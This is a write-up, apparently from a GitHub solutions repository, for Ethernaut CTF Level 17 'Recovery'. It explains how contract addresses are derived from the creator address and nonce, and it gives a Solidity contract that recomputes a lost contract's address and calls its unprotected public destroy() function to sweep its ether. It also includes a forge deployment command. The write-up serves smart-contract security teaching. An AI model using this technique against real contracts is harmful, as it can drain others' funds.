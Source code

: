 <div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>

<img src="../assets/levels/17-recovery.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 17 - Recovery</strong></h1>

</div>
<br>

Read the article directly on my blog: [Ethernaut Solutions | Level 17 - Recovery](https://blog.pedrojok.com/the-ethernaut-ctf-solutions-17-recovery)

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Goals](#goals)
- [The hack](#the-hack)
- [Solution](#solution)
- [Takeaway](#takeaway)
- [Reference](#reference)

## Goals

<img src="../assets/requirements/17-recovery-requirements.webp" width="800px"/>

## The hack

From the contract code, we can see that there is a public `destroy()` function that can be used to self-destruct the contract and force send the eth to an arbitrary address. So the challenge is to find the address of the contract that was created by the `Recovery` factory.

The easiest way to find it is to paste the `Recovery` contract address in your favorite block explorer and check for the first (and only) contract deployed from this factory! But... that is not exactly what The Ethernaut is trying to teach us here.

Contract addresses are deterministic and are calculated by `keccak256(address, nonce)` where:

- `address` is the address of the contract (or the Ethereum address that created the transaction);
- `nonce` is the number of contracts the spawning contract has created (or the transaction nonce, for regular transactions).

Based on that, how to retrieve the contract address without a block explorer?

Since Ethereum addresses are deterministic, we can manually re-calculate the lost address.

- The `Recovery` contract address is `0x2333215479D476895b462Ff945f3aF5bA2d0652e` (Replace with your instance address)
- The nonce is 1 or `0x01` (contracts are initialized with nonce 1)

We can use the following code to calculate the address:

```java
bytes32 hash = keccak256(
    abi.encodePacked(bytes1(0xd6), bytes1(0x94), recoveryAddress, bytes1(0x01))
);
address lostAddress = address(uint160(uint256(hash)));
```

`bytes1(0xd6)` and `bytes1(0x94)` are constants related to [Recursive-Length Prefix](https://ethereum.org/en/developers/docs/data-structures-and-encoding/rlp/) (RLP) to encode arbitrarily nested arrays of binary data.

Now that we have the address, we can call the `destroy()` function to recover the funds.

## Solution

Here is the full code:

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

// Lost address: 0x9938f099Cb6d3f666C5C168830aDD46952EF421B

interface ISimpleToken {
    function destroy(address to) external;
}

contract RecoveryService {
    address private immutable recovery;

    constructor(address _recovery) {
        recovery = _recovery;
    }

    function recoverAddress() public view returns (address) {
        bytes32 hash = keccak256(
            abi.encodePacked(bytes1(0xd6), bytes1(0x94), recovery, bytes1(0x01))
        );
        return address(uint160(uint256(hash)));
    }

    function recoverFund() public {
        ISimpleToken(recoverAddress()).destroy(msg.sender);
    }
}
```

You can use the following command to run the forge script:

```bash
forge script script/17_Recovery.s.sol:PoC --rpc-url sepolia --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY --watch
```

## Takeaway

- Ethereum addresses are deterministic and are calculated by `keccak256(address, nonce)`.

## Reference

- [How is the address of an Ethereum contract computed?](https://ethereum.stackexchange.com/questions/760/how-is-the-address-of-an-ethereum-contract-computed)
- EIP161: https://eips.ethereum.org/EIPS/eip-161
- Ethereum quirks: https://swende.se/blog/Ethereum_quirks_and_vulns.html

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
